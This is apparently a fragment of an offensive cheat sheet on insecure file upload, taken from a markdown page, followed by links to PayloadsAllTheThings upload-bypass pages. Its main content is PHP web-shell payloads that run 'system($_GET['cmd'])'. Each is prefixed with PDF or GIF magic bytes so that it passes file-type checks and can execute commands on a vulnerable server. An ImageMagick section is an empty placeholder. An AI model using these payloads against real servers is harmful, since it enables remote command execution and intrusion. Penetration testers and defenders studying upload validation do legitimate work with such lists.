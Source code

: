 ### PDF

```
25 50 44 46 2D

%PDF-
```

```php
%PDF-
<?php echo system($_GET['cmd']); ?>
```

### GIF

```php
GIF87a; <?php system($_GET['cmd']); ?>
GIF89a; <?php system($_GET['cmd']); ?>
```

## ImageMagick

TODO: Refer the link for the Imagemagick exploits

```

```

---
## References

### PayloadsAllTheThings

- [PayloadsAllTheThings: Extension PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20PHP/)

- [PayloadsAllTheThings: Extension HTML](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20HTML/)

- [PayloadsAllTheThings: Extension PDF JS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20PDF%20JS/)

- [PayloadsAllTheThings: Extension ASP](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP/)

- [PayloadsAllTheThings: Server Side Include](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Server%20Side%20Include/)

- [PayloadsAllTheThings: Picture Metadata](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Metadata/)

- [PayloadsAllTheThings: Configuration Apache .htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/)

- [PayloadsAllTheThings: Configuration Busybox httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf/)
